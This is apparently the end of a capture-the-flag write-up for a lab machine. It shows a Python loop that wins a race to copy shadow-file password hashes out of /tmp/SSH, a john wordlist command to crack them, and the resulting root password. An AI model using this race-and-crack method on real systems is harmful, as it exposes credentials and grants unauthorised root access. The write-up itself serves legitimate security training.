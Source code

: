 This script was reading the shadow file and then writing it in the /tmp/SSH ,eventually it also deleted it.
Used this script to get the file from /tmp/SSH as soon as it is created.
```python
import os

while True:
   if(os.listdir("/tmp/SSH/") == []):
      print("NotFound")
   else:
      os.system("cp /tmp/SSH/* /tmp/Pass/")
      print("Found...Exiting")
      exit(0)
```
Ran this script and then ran the BetterSSH.py in another window.Got the password hashes.
Using ***john*** decrypted the hashes to get the password for root
```bash
john --wordlist=rockyou.txt hash
```
Got the password for root

**root:mercedes**        
 Logged in and got the root.txt
 

## Thoughts
 This box was totally unique with it's approach.Creating the exploits yourself was fun.
